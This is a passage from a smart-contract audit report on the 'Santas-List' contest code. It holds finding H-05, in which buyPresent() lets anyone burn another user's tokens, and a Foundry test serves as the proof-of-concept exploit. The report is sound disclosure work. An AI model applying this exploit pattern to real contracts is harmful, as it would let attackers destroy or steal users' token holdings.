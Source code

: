 ## Impact
High. `collectPresent()` allows attackers to generate as many tokens as they want.
## Tools Used
Manual check.
## Recommendations
Consider adding [reentrancy guard](https://docs.openzeppelin.com/contracts/5.x/api/utils#ReentrancyGuard) to `collectPresent()`.
## <a id='H-05'></a>H-05. Incorrect logic buyPresent() results in burning of someone's tokens            

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-11-Santas-List/blob/6627a6387adab89ae2ba2e82b38296723261c08a/src/SantasList.sol#L172

## Summary
Function `buyPresent()` works incorrectly and allows anyone to burn anyone's tokens without permission.
## Vulnerability Details
A user can frame someone's address and burn their Santa tokens. See below:
```
function testBuyPresentMalfunction() public {
    // Santa sets the status of user to EXTRA NICE
    vm.startPrank(santa);

    santasList.checkList(user, SantasList.Status.EXTRA_NICE);
    santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
    vm.stopPrank();

    // Setting the time after Christmas
    vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

    // Let the user to collect his present.
    // As the user is EXTRA NICE he should get both ERC20 Santa tokens and NFT
    vm.startPrank(user);
    santasList.collectPresent();
    assertEq(santaToken.balanceOf(user), 1e18);
    assertEq(santasList.balanceOf(user), 1);
    vm.stopPrank();

    // An attacker wants burn someone else's tokens
    // and mint NFT for himself
    vm.startPrank(attacker);
    assertEq(santasList.balanceOf(attacker), 0);

    // Call of buyPresent() helps the attacker to reach his goal
    santasList.buyPresent(user);
    assertEq(santasList.balanceOf(user), 1); // NFT is generated for the user as well...
    assertEq(santaToken.balanceOf(user), 0); // But his Santa tokens have been burned.
    assertEq(santasList.balanceOf(attacker), 1); // Attacker mints Santa's NFT for himself
    vm.stopPrank();
}
```
## Impact
High. The implementation of the function and the ease of intentional or unintentional manipulation leads to a mess of user balances.